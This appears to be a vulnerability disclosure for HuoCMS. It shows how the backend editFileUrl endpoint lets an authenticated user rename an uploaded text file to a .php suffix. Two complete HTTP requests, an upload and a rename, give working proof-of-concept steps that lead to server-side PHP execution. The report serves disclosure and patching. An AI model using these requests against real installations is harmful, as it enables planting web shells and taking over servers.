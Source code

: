 Source Code Address:  https://gitee.com/digital-flag/huocms

Tips:  This vulnerability is a backend issue. To reproduce it, you need to set up the environment, log in to the backend, obtain a token, and then use the token for invocation.

app ->controller ->backend -> AttachmentController.php:editFileUrl()

The suffix of $newPathUrl in the "copy" function called in the "editFileUrl" method is not verified by the whitelist, which can be exploited to modify the file name. The suffix is controlled by the passed-in suffix_url and is controllable.


![image](https://github.com/user-attachments/assets/5cc40ef7-0d5f-4249-837f-5159475c2cee)

Step 1: Upload a file with a whitelisted suffix that contains malicious content in advance, and record the file ID at the same time.
```
POST /attachment/uploadAndSave HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization:  token
Content-Type: multipart/form-data; boundary=----geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Length: 581
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/admin.php/Index/index.html
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="type"

2
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="attachment_cate_id"

0
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="reduce_img"


------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

<?php
echo "hello word!"
?>
------geckoformboundaryd7df19e74fd06439fac43ff3e8a7a4b9--
```
![image](https://github.com/user-attachments/assets/aef0412a-b5a5-4253-b582-61b84735ad69)


Based on the content, the ID is determined to be 67.


Step 2: Then construct a request based on the editFileUrl, rename the one with id 67, where the copy function in the vulnerability's editFileUrl is called to rename the file with an illegal suffix.

```
POST /attachment/editFileUrl HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: token
Content-Length: 83
Origin: http://127.0.0.1
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=67&name=test&prefix_url=&suffix_url=file/20250416/test.php&description=123123123
```
![image](https://github.com/user-attachments/assets/f1dd77b0-c2ad-46aa-ae31-50da63c86375)


Note: To modify it again, you need to change the filename of `suffix_url` to bypass the `copy` function triggered by `$oldPathUrl != $newPathUrl` inside `editFileUrl`.


Access URL:  http://127.0.0.1/storage/file/20250416/test.php


![image](https://github.com/user-attachments/assets/5f1cdc2f-ef6a-459d-bdd5-7d8d7d550626)

